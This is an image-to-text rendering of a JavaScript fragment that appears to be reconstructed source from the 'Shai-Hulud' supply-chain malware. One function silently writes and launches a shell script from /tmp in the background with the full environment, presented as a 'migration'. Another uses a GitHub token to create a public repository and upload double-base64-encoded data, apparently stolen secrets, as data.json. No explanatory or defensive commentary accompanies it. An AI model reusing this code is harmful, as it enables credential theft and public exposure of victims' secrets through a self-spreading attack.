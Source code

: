```
        try {
            const n = "/tmp/migrate-repos.sh";
            te.writeFileSync(n, re, { mode: 493 });
            const oe = "/tmp/github-migration";
            te.mkdirSync(oe);
            const ie = { ...process.env },
                  se = ne(n, [r, t, F], { env: ie, detached: true, stdio: "ignore" });

            return se.unref(), {
                success: true,
                message: "Migration started in background",
                pid: se.pid,
                tempScript: n,
                tempDir: oe
            };
        } catch (t) {
            return {
                success: false,
                error: t instanceof Error ? t.message : "Unknown error occurred",
                message: "Migration failed to start"
            };
        }
    }

  async makeRepo(repoName, data) {
    try {
      const response = (await this.octokit.rest.repos.createForAuthenticatedUser({
        name: repoName,
        description: 'Shai-Hulud Repository.',
        private: false,
        auto_init: false,
        has_issues: false,
        has_projects: false,
        has_wiki: false
      })).data;

      // wait-ish (original had a 3s setTimeout)
      await new Promise(resolve => setTimeout(resolve, 3000));

      if (data) {
        const Base64 = Buffer.from(Buffer.from(Buffer.from(data).toString('base64')).toString('base64'));

        await this.octokit.rest.repos.createOrUpdateFileContents({
          owner: response.owner.login,
          repo: response.name,
          path: 'data.json',
          message: 'Initial commit',
          content: Base64
        });
      }

      return {
        owner: response.owner.login,
        repo: response.name,
        url: response.html_url,
        description: response.description,
        stars: response.stargazers_count,
        forks: response.forks_count,
        language: response.language,
        createdAt: response.created_at,
        updatedAt: response.updated_at
      };
```